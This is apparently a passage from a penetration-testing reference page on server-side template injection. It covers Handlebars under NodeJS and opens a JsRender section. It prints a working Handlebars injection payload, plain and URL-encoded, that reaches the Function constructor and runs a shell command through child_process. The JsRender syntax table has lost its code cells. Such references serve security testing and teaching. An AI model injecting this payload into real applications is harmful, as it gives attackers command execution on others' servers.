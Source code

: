 - = Error
    
- ${7*7} = ${7*7}
    
- Nothing
    


```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

**More information**

- [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jsrender-nodejs)

JsRender (NodeJS)

|   |   |
|---|---|
|**Template**|**Description**|
||Evaluate and render output|
||Evaluate and render HTML encoded output|
||Comment|
|and|Allow code (disabled by default)|
